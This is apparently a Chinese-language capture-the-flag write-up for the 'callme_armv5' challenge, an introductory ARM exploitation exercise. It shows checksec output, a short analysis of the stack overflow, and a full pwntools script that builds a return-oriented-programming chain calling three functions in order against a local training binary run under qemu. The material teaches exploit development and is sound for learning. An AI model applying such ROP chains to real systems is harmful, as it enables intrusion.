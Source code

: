```yaml
---
title: callme_armv5
date: 2023-03-23 19:40:15
categories: 
- pwn_wp
tags: 
- pwn
- arm
- ROP

---
```


arm pwn入门题，arm下的简单ROP。
<!-- more -->

查壳：同32位动态链接，只开了NX

```sh
[*] '/home/a1ph0nse/PwnPractice/OwnStudy/ARMpwn/callme_armv5/callme_armv5'
    Arch:     arm-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x10000)
    RUNPATH:  b'.'
```

逆向：

也是``pwnme`中有栈溢出，但`UsefulFunction`和`UsefulGadgets`有些意义不明。

`pwnme`中提示我去看介绍，看了之后才明白

>You must call the `callme_one()`, `callme_two()` and `callme_three()` functions in that order, each with the arguments `0xdeadbeef`, `0xcafebabe`, `0xd00df00d` e.g. `callme_one(0xdeadbeef, 0xcafebabe, 0xd00df00d)` to print the flag. 

我需要通过ROp走完`callme_one(0xdeadbeef, 0xcafebabe, 0xd00df00d) -> callme_two(0xdeadbeef, 0xcafebabe, 0xd00df00d) -> callme_three(0xdeadbeef, 0xcafebabe, 0xd00df00d)`才能`cat flag`。

`r0、r1、r2`分别控制第一、二、三个参数，还有这里要用elf.plt获取callme_xxx的地址，直接获取`BL callme_xxx`的不能正常跳到`callme_two`。

exp:

```sh
from pwn import*
context(log_level='debug',os='linux',arch='amd64')
filename='callme_armv5'
elf=ELF('./'+filename)
#libc=ELF('')
# p=process('./'+filename)
p=process(["qemu-arm","-L","/usr/arm-linux-gnueabi/", "./"+filename])
#p=process(['./ld-2.23.so','./'+filename],env={'LD_PRELOAD':'./libc-2.23.so'})
#p=remote('',)

s       = lambda data               :p.send(data)
sl      = lambda data               :p.sendline(data)
r       = lambda num=4096           :p.recv(num)
rl      = lambda num=4096           :p.recvline(num)
ru      = lambda x                  :p.recvuntil(x)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {}'.format(name, addr))

def debug(cmd='\n'):
  gdb.attach(p,cmd)
  pause()
    

callme_one=0x00010864
callme_two=0x00010854
callme_three=0x00010844

pop_r0_r1_r2_lr_pc=0x00010870

r()
payload=b'a'*0x24+p32(pop_r0_r1_r2_lr_pc)
payload+=p32(0xdeadbeef)+p32(0xcafebabe)+p32(0xd00df00d)+p32(pop_r0_r1_r2_lr_pc)+p32(elf.plt['callme_one'])
payload+=p32(0xdeadbeef)+p32(0xcafebabe)+p32(0xd00df00d)+p32(pop_r0_r1_r2_lr_pc)+p32(elf.plt['callme_two'])
payload+=p32(0xdeadbeef)+p32(0xcafebabe)+p32(0xd00df00d)+p32(elf.plt['callme_three'])*2
s(payload)

itr()
```

